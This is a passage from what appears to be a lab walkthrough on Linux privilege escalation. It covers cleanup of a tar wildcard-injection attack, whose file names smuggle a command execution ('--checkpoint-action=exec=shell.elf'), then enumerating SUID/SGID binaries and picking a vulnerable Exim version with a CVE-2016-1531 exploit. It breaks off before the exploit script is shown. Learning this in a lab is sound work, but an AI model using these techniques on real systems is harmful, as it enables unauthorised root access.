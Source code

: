 ```bash
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
exit
```

### Q1. Follow the steps above.

**No Answer Needed**

## SUID / SGID Executables - Known Exploits

### Step 1: Find All SUID/SGID Executables

On the Debian VM, find all files with the SUID or SGID bit set, as these can potentially be exploited for privilege escalation:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

**Sample Output:**

```bash
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
...
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
```

**Explanation:**  
The output lists files with the SUID or SGID bit set. These files run with elevated privileges (those of the file's owner or group) and can be exploited if vulnerable.

### Step 2: Identify Vulnerable Executables

Focus on `/usr/sbin/exim-4.84-3`, which is a version known to have a local privilege escalation vulnerability. Search for known exploits for this specific version on platforms like Exploit-DB, Google, or GitHub.

### Step 3: Exploit Exim to Gain Root Access

A matching exploit, `CVE-2016-1531`, can be found on the system at `/home/user/tools/suid/exim/cve-2016-1531.sh`. This exploit takes advantage of the vulnerable `exim` version to escalate privileges to root.

**1. Review the Exploit Script:**

```bash
cat /home/user/tools/suid/exim/cve-2016-1531.sh
```

**Sample Script Content:**
